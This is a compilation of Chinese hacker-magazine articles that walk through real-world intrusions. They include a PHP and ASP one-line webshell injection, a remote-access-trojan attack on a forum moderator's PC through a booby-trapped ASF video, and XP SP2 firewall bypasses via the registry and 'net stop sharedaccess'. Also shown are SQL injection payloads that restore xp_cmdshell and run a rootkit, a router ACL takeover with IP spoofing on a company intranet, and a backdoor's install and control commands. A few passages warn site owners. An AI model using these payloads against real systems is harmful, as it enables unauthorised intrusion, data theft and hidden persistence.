```

代码我就不一一解释了，说几个主要的地方：倒数第三行提交的几个变量以 `|%%|` 做分隔写入到 data/gb.php 文件里，而这个文件没有做任何处理，也就是说可以执行我们插入的后门。只有留言内容用了 functions.php 里定义的 UBB() 函数处理了，没法利用。像留言主题和你的昵称等，都没做任何处理就写入到 data/gb.php 里，只是在 newtemplate/add_form.html 里进行了提交内容长度的限制。

得到 webshell 的方法如下：点击添加留言，然后查看源文件，把留言主题下的 `<INPUT class=inp maxLength=10 name=topic size=40>` 中的 `maxLength=10` 改为 `maxLength=50` 或更大，把 `<action=index.php?action=addmethod=post>` 中的 `index.php?action=add` 改为 `http://target/gbook/index.php?action=add`，然后另存为一个后缀为 HTML 的文件，打开这个 HTML 文件，在留言主题里填入 lanker 的一句话木马：`<?php eval($_POST[cmd]);?>`，别的地方随便填，但注意格式要求。这样得到 webshell 的地址就是 `http://target/gbook/data/gb.php`。

本文没什么技术含量，当然我也是个超级菜鸟。写这篇文章的目的是让大家知道：网上下载的程序不要拿来就用，很多都存在严重的漏洞，这样会让你的站点存在威胁。毕竟现在拿来主义太普遍了。

> 【伊风网络 gbook v1.0 已经收录到本期光盘中】  
> 【编辑部点评】分析一个小小的脚本程序，尽可能地找到漏洞利用方法，这是学习 web injection 的最好方式。

# 渗透也要“废旧利用”——利用废旧文件成功渗透某网络安全联盟

科尔雄鹰 / 纳民

## 一、起因

有位自称黑客的不速之客删除了朋友 Web 服务器上的部分数据，并且将首页涂改得一塌糊涂，还留下了某网络安全联盟的名字。说是网络安全联盟，可怎么能随便删除别人的数据呢？这不是“贼喊捉贼”吗？顺藤摸瓜来到该站点，“惊喜”地发现很多栏目用到了 ASP。测试了几个页面看看有没有注入点，得到意料中的结果：没有注入漏洞。

## 二、过程及结果

郁闷之余，无意中看到 IE 地址栏中显示的站点主页地址为：http://www.hacker**.com/aaa/index.asp。显然，管理员没有把主页放到 Web 根目录。回想一下查看过的栏目都在“aaa”目录下，那么 Web 根目录下会不会有其它虚拟目录呢？试了试“aa”“a”等目录名，IE 均会显示 404 错误提示。展开该思路，站长是个“黑客”，那么会不会在自己的网站上搭建一个模拟平台进行漏洞攻击试验呢？于是先由“aaa”的位置上分出“cshi”“shiyan”“target”等栏目测试，当添加到“test”时，即提交地址 `http://www.hacker**.com/test/` 的时候出现了一个所有栏目均为空白的页面，这些栏目只起了名称，却没有实际内容，很可能是站长正在建设的子站点，或用来寻找新漏洞的“试验场地”。

这个目录下放了动易 4.03 版本，后台管理页面的路径没有改，但已经改掉了默认后台管理员密码。经过一番查找后在网站根目录下发现了 install.asp 文件。该文件是动易的安装向导文件，运行到第四步时会要求站长输入邮箱地址及密码，以便 JMAIL、webeasymail 等组件进行邮件群发（图1）。利用该向导文件安装完动易系统后会出现提示“请删除该页面”，但实践中多数站长往往会大意地将该提示抛之脑后，这里也不例外。更让我高兴的是，站长的邮箱密码和后台管理员密码是一样的。

利用该密码成功登录后台管理，打开“图片管理中心”，在“顶部菜单设置”项目中的“菜单其它特效”文本框中追加进一句话木马：`%><%execute request("ao")%><`（图2）。其中多出的 `%>` 部分是为了结束原有 RootClass_Menu_Config.asp 页面内的代码，然后用客户端请求页面 `http://www.hacker**.com/test/admin/RootClass_Menu_Config.asp` 后成功得到一个 webshell。现在可以转至 aaa 目录了……没想到这个自称网络安全联盟、到处黑站的站点，自己却如此不堪一击。

## 三、后续

由此可见，在第一次安装完动易系统后就应立即删除的 install.asp 文件，在此次渗透中扮演了一个危险而重要的角色。举一反三，还有很多类似“看上去是垃圾”的文件有可能成为威胁 Web 服务器安全的隐患。

- `readme.txt`、`help.txt` 和其它一些建站系统说明文件。不要小看此类系统介绍文件，里面不仅会记录该系统名称、作者、版本，甚至还会有建站系统默认的管理员密码、数据库地址及后台管理登录页面地址等诸多有价值的信息。而这个文件总是被管理员忽略，和其它源代码文件一起被上传到 Web 目录中。要知道 `.txt` 文件是可以在客户端被解析的。攻击者得到站点系统真实的 readme.txt 文件后，会根据该文件透露的信息寻根溯源，下载源代码并查找漏洞，或者直接利用搜索引擎找出相应的攻击方法进行攻击。在使用网上下载的源代码作为建站系统时，应找出并删除这类文件，避免其无意中被上传到虚拟目录中。
- `*.asp.bak`、`*.jsp.bak` 文件。`*.bak` 是原文件的备份文件。利用某些（如 UE）文本编辑软件修改网页后，会在同一目录下自动生成这样的备份文件，而且不会出现任何提示。当直接在 Web 虚拟目录下用此类软件编辑重要页面时，隐患就产生了。如编辑 conn.asp 页面将生成 conn.asp.bak 文件，而 `*.bak` 文件同样可以被客户端下载。特别是在以 JSP 作为源码的 Web 服务器里，此类文件随处可见。
- 废旧的虚拟目录。诸多站点即使更新版面后，管理员仍将旧版论坛以 old、bbs2、oldbbs 或其它名称命名后放在网站的 Web 虚拟目录下，且很少会对这些旧版栏目进行升级，而入侵者恰恰会利用这点寻找可作为重点突破口，进行“已知弱点猜测”攻击。另外，如同这次渗透中利用到的那样，一些 Web 虚拟目录中未开放版面、在建版面以及正在测试中的版面和某些建站系统集成的隐含版面（如 webeditor）也属于此类。对于站点对外开放并已长期稳定运行的版面，这些正处于测试或在建阶段的版面所用到的建站系统往往缺乏有效防范，甚至仍处于默认设置状态。聪明的攻击者会利用浅规则和社会工程学原理猜测出这些隐含版面对应站点栏目。测试或者建立新栏目时，最好在其它终端上测试成功后再上传到 Web 服务器上。

# 实战入侵目标个人电脑

李丰初

最近，一个朋友老是叫我帮他一个忙，求了好久。因为没有时间的关系（本人快去实习了），所以不敢答应他。这两天比较有空些（因为我系里面的老师都去帮忙招生），所以课程比较少点了，就问他有什么事要帮忙。

呵呵，这一下他真的太高兴了。他说呀，最近他在论坛那里老是被人灌水攻击，想报复回来（是开玩笑的那种报复呀）。于是我去看了看那个动漫（又称“润网”）论坛，是一个以影视为主的论坛。我问他为何要入侵？他说，那个版主说他有《七剑》的电影，每个人都共享就是不共享给他，他说为此气死了，想入侵他的电脑偷偷地把《七剑》给下载下来。唉，我还以为是什么大事，原来是这个样子的小事。于是，就有了此文章——实战入侵目标个人电脑。

## 一、入侵前的分析

我们知道入侵必须知己知彼才行，那么就看一下入侵方与被入侵双方的形势。

我与我的朋友都处在同一个学校里面，电脑都对外显示同一个 IP。可以说，我在局域网内；而另一方电脑听他说是个人电脑，那么他就是学校外网了。

我们首先就是要突破内网对外网的入侵。如果我们没有路由的绑定，就不可以用映射端口的方法了。这是本次入侵中的关键。第二，我们要下载他的《七剑》，那么最好能远程控制他，使他中个马，用反弹木马更好。

以上所分析的就是要解决两个难题：一是如何使他中木马，二是木马如何能穿过学校内网进入外网进行连接控制。当然，他最经常去的就是那个影视论坛，我们可以从论坛入手；由于他又是版主，那么我们就可以在一些帖子里面写入跨站代码，让他中网页木马。分析到此，下面就是我们实战入侵目标个人电脑，我会一步步图文并茂地说明怎么样从内网的突破到远程控制目标电脑。（本文用远程控制软件灰鸽子为例。）

## 二、如何在无路由权限中的内网启用灰鸽子

我们知道当使用灰鸽子时，要使内鸽自动上线的话，最好有自己的外网 IP，这样才能发现对方上线并自动监听反弹连接。我们首先要得到一个域名，以指向我本机的 IP，那么这样子什么都好办了。怎么样做？看我的，打开下面这个网站 www.xinshi.net。这个网站提供了一种叫做“信使网络通”的服务（可以使域名指向内网 IP）。进入首页后，我们选择“信使网络通”，先注册一下，注册时记得所有有选择的项目都以默认形式即可。注册成功以后，我们就在这个网站登录，登录以后就可以看到有客户端下载的内容，我们把它的客户端下载安装在自己的电脑上，安装以后打开，进行登录，如图1所示。

然后选择“连接状态”，如图2所示。

注意这里有几个服务器可选项，有时候连不上，多试几次一般就可以连得上的。做完这一步以后，我们再选择左面控制面板中的“安全设置”，如图3所示。

图3中右面的“增加”，填写好自己的内网 IP 与端口，选择添加的 IP 后，再点右下方的“连接”。这样客户端就设置好了。接着，登录 www.xinshi.net 后，按图4所示进行设置。

要注意的是：虚拟域名里要以这样的形式填写“xxxx.xinshi.net”（其中的 xxxx 为你想要的域名，后面的不要变），“内部网站 IP”一定要填写与刚才客户端一致的 IP，端口也是与刚才客户端一样的。完毕后，要测试一下，看看打开这个映射 IP 是否可以访问到。我们先用灰鸽子里面的配置工具开启 80 端口的服务，如图5所示。

## 三、论坛有目的地钓大鱼

我在桌面上新建了一个“index.html”，然后访问一下 `http://wwwst.xinshi.net/`，这是我刚才申请的域名。在 IE 打开后，出现如图6所示的页面。看到了没有，当打开那个新申请的域名以后就出现了以下的东西，那么这就说明我已经成功开启了内网 IP 通过外网域名可以访问到的功能了。（注意：有些内网的朋友按上面的步骤操作却不能成功，为什么呢？先检查一下你的 80 端口有没有被占用，如果被 IIS 占用的话，那就要先停止 IIS 的服务）。

好了，下一步就要来配置木马了，以“灰鸽子”为例进行说明。打开灰鸽子，所有的设置都要按你们的需要设置，只需要注意一下图7中的设置就可以了。

记住自动上线写上我们刚才的域名。然后生成木马。我们的目的是要让被入侵者从论坛中木马，那么我们就得做一个网页木马。做网页木马的方法太多了，看哪种合适你，你就用哪种吧。关于网页木马的制作，不懂的话请到“非安全”里面寻求帮助。我现在已经把木马做好了，只要一打开 `http://d99.126.com` 这个网站就中了木马了。

我们已经了解到他是论坛的版主，那么他肯定要经常巡视一些帖子，也就是说他经常要审查帖子。那么只要能伪造出一个跨站，自动打开我们的网页木马，就可以达到入侵的目的，最好能自动打开那种，不然骗他点击还是难上加难。我们就做一个自动打开的跨站，只要他一浏览帖子就中招。好的，动网论坛浏览帖子漏洞已经很少很少了，以前还可以利用 Flash 里面插入 JavaScript 脚本来进行 URL 的自动打开，现在……不用说了，都基本上补上了。不过，我还是发现有一个漏洞是可以利用的。呵呵，到写稿子为止，动网官方还有这个 ASF 漏洞。我们就利用这个 ASF 漏洞看看怎么样实践钓到这条大鱼吧。

首先我们要安装一个叫做 wmtools.exe 的软件，它的作用是编辑 ASF 文件。安装好以后，我们还要准备一份 ASF 视频文件（百度上自己下载吧）。打开软件包里面的 Windows Media ASF Indexer，然后选择已经准备好的 ASF 文件，依次选择右下角的“Edit Script Commands”（中文意思为脚本编辑按钮），在弹出的对话框中再选择“new”，最后如图8所示填写好。

“Time”为弹出的时间（注意不要填写弹出的时间大于 ASF 文件的播放时间），“Type”记得要选择“URL”，“Parameter”这里就是你要填写跨站的网址。做好以后，再把这个 ASF 视频文件传到网站空间。`http://web.163.sh.cn/~wwwst/new.asf` 就是我上传后的地址，来测试一下行不行。因为是测试，我就把里面弹出的 URL 写成 `http://hao123.com`，看看能不能弹出。成功以后，到他的论坛去，找一个不是很显眼的地方，呵呵，那就在灌水区吧，插入以下代码（图9）：

```text
[mp=500,350,1]http://web.163.sh.cn/~wwwst/new.asf[/mp]
```

先来解说一下这段代码的含义：第一个 MP 表示这是一个 ASF 文件，以 500×350 的大小显示，里面的参数“1”是自动播放形式，而中间的网址就是所指向的 ASF 视频文件，后面是视频文件的结束标志符。

发表以后，看看能得到什么样的情况吧，结果如图10所示。

## 卸杀 Windows XP SP2 内嵌安全措施——

纳豆苏荣

在经过无数次安全事件的洗礼之后诞生的 XP SP2，在安全上着实下了一番功夫——内嵌了诸多实用的安全工具和功能，那么其效率和威力又如何呢？看过下面的两个方法就知道答案了。

首先是大名鼎鼎的 Windows 防火墙。由于操作简单、占系统资源较少且无需额外付费，获得了众多用户的青睐。其最常见的作用方式是在应用程序第一次启动新端口时，自动弹出如图1所示的“安全警告”窗口，提示用户是否允许该程序进行对外通信。选择“保持阻止”就能拦截该程序的网络通信，从而防止计算机不受木马等恶意程序的远程控制；选择“解除阻止”时，防火墙将允许该程序对外通信，并将该程序加入允许通信列表。在下次进行网络通信时就不再出现安全提示了。


图1

这样的策略看似周全但并不完美，因为问题出在微软把 Windows 防火墙的所有规则都放在了注册表中。位置在 `HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\SharedAccess\Parameters\FirewallPolicy\StandardProfile\AuthorizedApplications\List` 分支中。如图2所示，其中 NC 是后期加入的允许网络通信规则。


图2

这条通信规则 `"E:\Program\AllTools\NetCat\nc.exe"` 是程序路径，“*”是指该程序可以开任何端口；“Enabled”表示允许网络通信；最后一个 NC 是该条规则在列表中显示的名称。包括木马和蠕虫在内的任何程序，只要将自身按照所列规则加入注册表中的该分支，就能拥有“合法身份”，大摇大摆地进行网络通信了。此外，更可怕的是只要运行“net stop sharedaccess”命令就能轻松停止 Windows 防火墙服务。

其次要说到 XP SP2 增加的阻止弹出窗口的功能。该功能使很多网页木马和恶意脚本语句失去了“用武之地”。但因为和造成 Windows 防火墙缺陷的同样原因，该措施还是可以被恶意攻击者轻松绕过。如图3所示，这次允许弹出窗口的站点被储存到了注册表分支 `HKEY_CURRENT_USER\Software\Microsoft\Internet Explorer\New Windows\Allow` 中。只要将站点放入该键值中，即可让 IE 每次访问同一站点时不阻止弹出窗口。

```bash
reg add "HKCU\Software\Microsoft\Internet Explorer\New Windows\Allow" /V "www.target.com" /REG_BINARY /F
```

XP 里的 reg 这个命令可以在 regedit（即注册表编辑器）被禁用的情况下执行。参数 /V 后是所选项之下要添加的值名，参数 /F 的作用是在不用提示的情况下强行改写现有注册表项。


图3

> 作者对 XP SP2 自带安全措施做了一点小研究，大家又可以学到一点小知识了。编辑这篇文章的时候，我想了好久，这个技巧可以实际应用在哪方面呢？也许写木马的人会用到吧……

# 渗透国内知名公司内部网络

EvilAngel

最近一个网友要我帮他拿他们公司内网一个重要的文件，把他已经掌握的信息 Mail 给我了。这些信息主要是几张网络拓扑图以及在内网嗅探到的信息（包括朋友所在子网的设备用户名及密码等信息……）。参照以上信息总体整理了一下入侵思路：如果在朋友机器安装木马，从内部连接我得到一个 CMD Shell，需要精心伪装一些信息，还有可能给朋友带来麻烦，所以选择以该网络的网站为突破口，这样管理员不会认为有“内鬼”的存在。

## 一、提到网站系统的 cmdshell 权限

用代理上肉鸡，整体扫描了一下该公司的网站，只开了 80 端口，没扫描出来什么有用的信息，就算有也被外层设备把信息过滤掉了。网站很大，整体是静态网页，搜索一下，查看源文件查找“.asp”，很快就找到一个类似 `http://www.****.com/news/show1.asp?NewsId=125272` 的页面，在后面加上 and 1=1、and 1=2，前者正常，后者返回如下错误：

```text
Microsoft OLE DB Provider for ODBC Driver error '80040e14' [Microsoft][ODBC SQL Server Driver][SQL Server]Unclosed quotation mark before the character string './news/show/show1.asp', 行 58
```

看来是 IIS+MSSQL+ASP 的站，再来提交：

`http://www.****.com/news/show1.asp?NewsId=125272 and 1=(select is_srvrolemember('sysadmin'))`

`http://www.****.com/news/show1.asp?NewsId=125272 and 'sa'=(select system_user)`

结果全部返回正常页面，这说明当前连接的账号是以最高权限的 SA 运行的。看一下延伸的 xp_cmdshell 扩展存储是否存在，如果存在那就一定初战告捷。提交：

`http://www.****.com/news/show1.asp?NewsId=125272 and 1=(select count(*) from master.dbo.sysobjects where xtype='x' and name='xp_cmdshell')`

页面没有正常返回。看是否能够利用 xplog70.dll 恢复，再来提交：

`http://www.****.com/news/show1.asp?NewsId=125272;exec master.dbo.sp_addextendedproc 'xp_cmdshell','xplog70.dll'`

来试一下 xp_cmdshell 是否恢复了。又失败了，看样子管理员是把 xp_cmdshell 和 xplog70.dll 删除了，想利用 xp_cmdshell 下载我们的木马现在是不可能的。

于是，我们要先得到一个 Web Shell，上传 xplog70.dll，恢复 xp_cmdshell，再利用 xp_cmdshell 运行我们上传的木马，这就是大众化的入侵思路了，前辈们已用经验验证过这个方法能够入侵成功。

拿出 NBSI 扫一下，一会儿后台用户名和密码就出来了，可后台登录地址扫不出来。测试了 N 个工具，手工测试也没结果，有可能管理员把后台删除了。这时要想到办法得到网站目录，这时就需要用到 xp_regread、sp_makewebtask 两个扩展存储。试一下它们是否存在：

`http://www.****.com/news/show1.asp?NewsId=125272and 1=(select count(*) from master.dbo.sysobjects where name='xp_regread')`

`http://www.****.com/news/show1.asp?NewsId=125272and 1=(select count(*) from master.dbo.sysobjects where xtype='X' and name='sp_makewebtask')`

全部返回正常页面，说明存在这两个扩展存储（一般网管不太了解它们，存在也很正常）。xp_regread 扩展存储是用来读取注册表信息的，我们可以通过这个得到保存在注册表中的 Web 绝对路径。sp_makewebtask（Web 助手存储过程）就是我们用来得到 WebShell 的，主要功能是导出数据库中表的记录为文件。

这个方法网上很早就出现了。网站目录在注册表里是在 HKEY_LOCAL_MACHINE，`SYSTEM\ControlSet001\Services\W3SVC\Parameters` 这个键下。要做的就是在数据库里建一个表，将它存储在表里，再使数据库错误回显在 IE 里。方法如下：

```sql
http://www.****.com/news/show1.asp?NewsId=125272;create table [dbo].[biao]([zhi] [char](255));

http://www.****.com/news/show1.asp?NewsId=125272;declare @result varchar(255) exec master.dbo.xp_regread'HKEY_LOCAL_MACHINE','SYSTEM\ControlSet001\Services\W3SVC\Parameters\Virtual Roots','/','@result output' insert into biao (zhi) values(@result);

然后导出 WEB 绝对路径：http://www.****.com/news/show1.asp?NewsId=125272 and 1=(select count(*) from biao where zhi>1)
```

IE 返回错误，得到网站的物理路径为 `e:\inetput\web\`。很幸运的是，Web 服务器与 SQL 服务器是同一台机器。我用“嗅突破”的 getwebshell 向网站目标写个小 ASP 木马，登录木马后把自己机器的 xplog70.dll 上传到网站目录下。然后在 Web 服务器上装一个 hacker's door（黑客之门），它只有一个 dll。为了方便入侵，我把它改造成 exe 格式。我建了一个批处理，名字为 run.bat，代码如下：

```bat
@echo off
@rundll32 kernelDllRegisterServer svcnost.exe
@del run.bat
```

再拿文件合并器将我们建的批处理和 dll 文件合并成一个 rootkit.exe 文件（图1）。


把这个 rootkit.exe 传到网站目录下。黑客之门的使用方法我就不多说了，它有详细的使用手册。它的主要用处是可以利用服务器上所开的任何端口和我通信。现在恢复网站的 xp_cmdshell 扩展存储：

`http://www.****.com/news/show1.asp?NewsId=125272;exec master.dbo.sp_addextendedproc 'xp_cmdshell','e:\inetput\web\xplog70.dll';--`

然后在 IE 里提交：

`exec master.dbo.xp_cmdshell 'e:\inetput\web\rootkit.exe';--`

木马运行后，`Nc -vv ip 80` 输入密码就得到一个 CMD Shell。以上我用到的方法很早就有了，由于网上资料也很多，本文主要说渗透内网，篇幅有限就不过多解释了。

## 二、渗透内网

这个公司的内网网络很大，共有七个网管。现在当前的 cmdshell 位置是 F 网，朋友在 B 网，目标在 A 网。图2是该公司大体的网络拓扑图。


图2

朋友给的资料显示：目前接入 Internet 的网关设备未知（假设未知设备都是路由器），掌握 B 网所有设备用户名密码（朋友之前嗅探到的）；渗入 A 网后对其网络可以自由通信。A 网内有公司重要信息，所以不像其他网，它不允许任何人访问，路由不给予转发数据；也就是说只进不出的网络。虽然现在的网络是外紧内松，但是想进入目标主机还是有些难度。怎么绕过设备限制到达目标呢？还要往下看。现在首要目的是让图2中标记 router3 给我们转发数据包。

首先我尝试了 telnet 登录路由，结果是拒绝访问不能登录，应该是访问控制列表被限制了。现在我们首要目标就是拿下 router3 的控制权。为什么目标定位 router3 呢？个人认为 router3 是最佳路线，原因为以下4点：

- 我们现在知道它的登录密码；
- 我当前位置可以和 B 网直接通信；
- Router3 是 A、B 网络公用的，应该两个网管都有权限登录；
- 这一点也是最重要的，只有 router3 给予数据转发才可以和目标主机通信。

一般来说管理员主机一定可以登录这台路由器。网管主机都不可以登录设备，那么谁去维护网络呢？现在假设一下，如果 B 网管理员所管理的设备只有 A 网它本身所用的 IP 或 TFTP Server（兼 DHCP Server）才可以登录设备，那么有如下思路可以完成入侵：

- 直接得到 B 网管理员主机的一个 CMD Shell 来登录设备。
- 得到管理员可网段一台主机的 CMD Shell，从而利用 ARP 投毒来 telnet 目标路由。
- 得到 B 网其他网段中可访问外部网络一台主机的 CMD Shell，伪装 CMD Shell 主机 IP 地址，必要时伪装 IP+MAC 地址来欺骗路由器（机会高达 50%）。

经过分析后决定先从拿 B 网的 DHCP 服务器（172.16.101.25）开始。选择突破点也很重要：DHCP 服务端为了提供这个网段的服务是暴露在相对外部的，而不在 VLAN 的管理中，还和网管在同一交换机下；并且听朋友说他们公司 PC 几乎不打补丁，还有很多员工不知补丁为何物，这也给入侵带来极大方便。利用服务器的 Web 木马上传一些流行的溢出程序，直接拿个溢出程序溢出其 DHCP 服务器，成功得到一个 System 权限的 CMD Shell（最后才知道 2003 年前的溢出程序对这个主机都有用）。

革命尚未成功，同志们还须努力！在这个 CMD Shell 下下载肉鸡、一个反弹木马，这个木马主机就是我们在内网的一个接入终点。利用反弹木马开的 CMD 窗口，telnet 一下路由，结果是 `%connection closed by remote host`，还是连接失败，不能登录路由器。看样子只有 172.16.101.15 这台主机（管理员 IP）可以登录了。我们看一下登录它的交换机 OK 不（一般工作组交换机权限设置不会那么 BT）。

```bash
telnet 172.16.101.253   // 交换机管理地址
Password:
center>enable
Password:
```

用朋友给的密码成功登录，再用 `show mac-access`、`show cdp neighbors`、`show arp` 一些命令判断管理员对应端口。管理员 IP 对应的是 FastEthernet 7/1，这个时候要用到 IP 地址欺骗，命令是：

```bash
#interface FastEthernet 7/1
#shutdown
```

当然，做这些动作时还要等网管离开的时候才可以，这就要和我朋友内外结合了。这个时候 172.16.101.15 这台主机在网络上已消失。我们试一下路由是否允许网管主机登录，把当前登录主机的 IP 改成 172.16.101.15，输入：

```bash
netsh >interface ip
netsh interface ip >dump    // 看一下接口配置信息
netsh interface ip >set address name = "本地连接" source = static addr = 172.16.101.15 mask = 255.255.255.0
```

这时候当前主机地址已经改为 172.16.101.15，现在这个主机会和我断线，只是一小会，我们的反弹木马一会儿就能上线。一般重新变更 IP 地址要发个 ARP 广告告诉网络其他主机，大概意思是“我的 IP 是 172.16.101.15，MAC 地址是 00-00-00-12-34，以后发给 172.16.101.15 地址的数据包都由我来响应”。交换机刷新地址表后这台主机伪装成功。此时再来 telnet 登录路由器成功，如图3所示。


图3

`show running-config` 看一下配置信息，把路由配置信息 COPY 到本地记事本分析，找到如下配置信息：

```bash
access-list 99 172.16.8.88 0.0.0.0    // A网管理员地址
access-list 99 172.16.101.15 0.0.0.0
```

访问列表 99 限制只有以上两个 IP 可以登录路由，看来是这个家伙在作怪。删除 99 访问列表，再添加 99 访问列表：

```bash
#access-list 99 172.16.68.88 0.0.0.0
#access-list 99 172.16.101.15 0.0.0.255  // 改成 172.16.101.0/24 网段都可以登录
#line vty 0 4
#access-class 99 in
```

退出路由器系统，把自己 IP 改回来，把交换机设置也改回来，以免网管回来被发现。

```bash
center(config)#interface FastEthernet 7/1
center(config-if)#no shutdown
```

简单清理一下留下的痕迹，退出他们的网络后分析一下网管是怎么配置路由的。在路由配置信息中有几条重要信息：

```bash
ip nat pool NO.1027 10.255.200.7 10.255.200.105 netmask 255.255.0.0
ip nat inside source list 10 pool NO.1027 overload
access-list 10 permit 172.16.7.0 0.0.0.255
access-list 10 permit 172.16.8.0 0.0.0.255
router eigrp 10
```

# 从西亚购物得到后门

ZeTa

中秋节，大家都回家吃晚饭了，房间内只有我一个人，比较无聊……偶尔心血来潮想看看自己的网站中有没有后门，在 IE 中打开了 FTP，以“详细方式”查看文件。这样可以看到文件的最后修改时间。我是批量一次性上传的文件，所以一目了然地可以找到被修改过的文件。一个个目录看过去后，有个 `sia-log.asp` 的文件日期明显不对。下载回来，比较失望，也瞎白庆幸，不是后门，是个日志记录文件。简单地说，它记录了我网站上这个“西亚购物系统”被攻击的 IP 来源、时间及提交的 URL 等，文件内容如图1所示。

这个文件用于获取主机名、提交的 URL 和服务器时间，然后生成文件保存在空间里，但是为什么要存为 ASP 格式呢？这不是引诱我犯罪么？感觉这个文件可以形成一个后门，因为其中的“提交 URL”是可以修改的。那么来试试吧。

```asp
<% execute request("a") %>
```

打开我网站页面，在参数后加上，页面此时变为空白，无任何错误返回，并且 `sia-log.asp` 没有记录任何东西。

再试吧，提交 `urlwww.nuoya.org/shop999/product.asp?proid=29'%20<%`，页面跳转并提示如下出错信息，如图2所示。

然后再打开 `sia-log.asp`，看看新增的出错记录信息，如图3所示：

可以在图3中看到最后一条记录，我们 URL 中输入的 `%` 没有记录到日志文件中去（如果要有 `%`，应当提交为 `%25`，编辑注：不是这么了），去看记录出错的那个文件，路径为 `conn/error.asp`，源码如下：

```asp
<% '记录非法操作信息
ip=Request.ServerVariables("REMOTE_ADDR")
toppath = Server.Mappath("sia-log.asp")
Set fs = CreateObject("scripting.filesystemobject")
if Not fs.FILEEXISTS(toppath) Then
  Set Ts = fs.createtextfile(toppath, True)
  Ts.close
end if
... %>
```

```asp
Set Ts=Fs.OpenTextFile(toppath,1)
Do While Not Ts.AtEndOfStream
  Errorlog = Errorlog & Ts.ReadLine & chr(13) & chr(10)
loop
Ts.close
Errorlog = Errorlog & "<br>非法操作IP：" & request.serverVariables("remote-host") & " 非法操作代码：" & request("allquery") & " 非法操作时间：" & now()
Set Ts=Fs.OpenTextFile(toppath,2)
Ts.writeline(Errorlog)
Ts.Close
...
Response.Write "系统自动拦截非法操作代码" & request("allquery") & "..."
Response.end%>
```

看看我们感兴趣的部分：

```asp
Errorlog = Errorlog & "<br>非法操作IP：" & request.serverVariables("remote-host") & " 非法操作代码：" & request("allquery") & " 非法操作时间：" & now()
```

其中三个值被获取，语句比较简单，我们修改“allquery”吧，因为它是从我们的 URL 中发出的，应该可以修改。

构造一个 htm 文件，本地用的，代码如下：

```html
<form action=http://www.nuoya.org/shop999/conn/Error.asp method=post>
  <textarea name=allquery cols=80 rows=10 wide=32></textarea>
  <input type=submit value=save>
</form>
```

其中 action 的地址为那个记录出错文件的地址，另存为 `.htm` 文件后打开，在输入框内写入小马代码 `<%execute request("a")%>`，提交吧，打开服务器上的 `sia-log.asp` 看看结果如图4所示：

啊啊啊，小马进去了。其实这个漏洞比较简单，也可以说是疏忽。小漏洞大利用，逆向可想到很多程序有此功能，开源程序随手拿来时大家请小心。

> 【黑客点评】不知为什么西亚购物系统的日志记录文件会存为 asp 格式，难道怕被人访问吗？联想到有些 Web 脚本也会记录 URL 并存成文件放于 Web 系统目录下，如果能够访问到，说不定连后台地址也能看到呢！


# 带你穿透防火墙的随意门——无端口无进程超稳定后门体验

特南克斯

## 一、现有后门的缺憾

先介绍一下什么是后门。后门程序又称特洛伊木马，其用途在于潜伏在电脑中，从事搜集信息或便于黑客进入的动作。后门是一直玩黑高手们必不可少的工具，一个合格好用的后门更受黑客们青睐！现在网络上流行的木马后门很多，但可以称为精品的可是少之又少，很多人还用着 winshell 后门呢！

好的后门首先是要学会隐藏，如果不隐藏那它只不过是一个普通的程序而已，根本上算不了后门。而隐藏至少包含有两个定义：一是隐藏进程，二是隐藏端口。而且在这基础上还要稳定性好。现在的后门一般都做到了隐藏进程了，例如 Bits.dll、会广泛为人知的 Hxdef 等。但是真正做到端口隐藏的却并非很多，Bits.dll 后门连接开端口时，如果防火墙在的话，肯定暴露出来有进程想要访问网络的危险提示。

……（正文为三栏长文，介绍常见后门在隐藏进程、隐藏端口、稳定性方面的不足，并引出“无端口、无进程、超稳定”的随意门方案）

## 二、随意门

### 1. 原理

随意门 RandomDoor V1.0 是一个为穿透防火墙而制作的后门。使用非常方便，生成 DLL 后用 `Rundll32 DLL名,Install` 就可以了。文中说明其通过发送 ICMP/TCP/UDP 信息建立反向连接，在满足网络条件下可绕过多数防火墙限制。

- 一般防火墙都允许内网主机向外网连接（如访问网站）。
- 服务器侧防火墙通常会放行部分服务端口（如 80、21）。

文中还提到可用端口映射、反向连接、NC 监听 1031 端口等方式完成连接；并讨论了 `svchost.exe` 相关进程伪装与系统版本兼容性。

### 2. 实战随意门

- 配置后门
- 后门安装运行

```bash
rundll32 asdf.dll,Install
```

图1

### 3. 看后门是否安装成功

图2

查看方法：`C:\>type C:\WINNT\temp\SysEvent.tmp` 或 `C:\>type C:\windows\temp\SysEvent.tmp`

图3

之后就可以连接了！

（3）连接后门

下面先介绍一下专用连接工具：Random Door。专用连接工具直接运行可以显示帮助信息。

```text
tel 用法：

tel -e <主机IP> <验证码>
-> 自动尝试 ICMP/TCP/UDP 协议连接

tel /i(<i>) <主机IP> <ICMP类型> <验证码>
-> ICMP 协议连接目标主机，ICMP 类型自定义

tel /t(<t>) <主机IP> <任意TCP端口> <验证码>
-> TCP 连接目标主机开放的任意 TCP 端口

tel /u(<u>) <主机IP> <任意UDP端口> <验证码>
-> UDP 连接目标主机开放的任意 UDP 端口

tel /n(<n>) <主机IP> <任意TCP端口> <验证码>
-> 反向连接到 NC 监听的 1031 端口
```

- ICMP 类型包括：0、3、4、5、8、11～16。常用的是 ping 数据包类型 0、8。
- 选择自动连接时，程序会自动发送 ICMP 包，并尝试 TCP/UDP 常用端口（如 21、80、1433 等）。
- 参数 `/n` 是为了方便与 nc 配合，连接前先监听 1031 端口。

图4  
图5  
图6  
图7

且屏蔽了常用的端口，我用 X-Scan 扫描，只开了个 4662 端口（如图6），不知道是什么端口。反正可以连，用自定义 TCP 连接它的 4662 端口（图7）。

图8

（4）卸载

卸载后门有两种方法：

- 直接从命令行输入：`Rundll32 DLL名,Uninstall` 或 `Rundll32 DLL名,uninstall`（图9）
- 连接进入后门后，使用命令 `remove`（参见图4），卸载后也会写入日志文件（参见图3）。

图9

连接之后输入 `?` 回车就可以看到一个命令列表，介绍后门的使用命令：

| 命令 | 说明 |
|---|---|
| shell | 得到一个 CmdShell |
| pslist | 列举进程 |
| pskill PID | 杀进程（按 PID） |
| svclist | 列举系统服务 |
| svckill SERVICENAME | 杀服务（按服务名） |
| clean | 清日志 |
| info | 得到系统信息 |
| findpass | 查找 Administrator 密码 |
| opentcs PORT | 开启终端（自定义端口） |
| closets | 关闭终端 |
| clone Password | 将 Guest 克隆成管理员用户 |
| admin USER PASS | 添加管理员用户 |
| userlist | 列举系统用户 |
| deluser USER | 删除用户 |
| cd DIR | 切换目录 |
| dir | 列目录 |
| del/delete FILE | 删除文件 |
| exc ExeFile | 运行程序 |
| restart | 重启 |
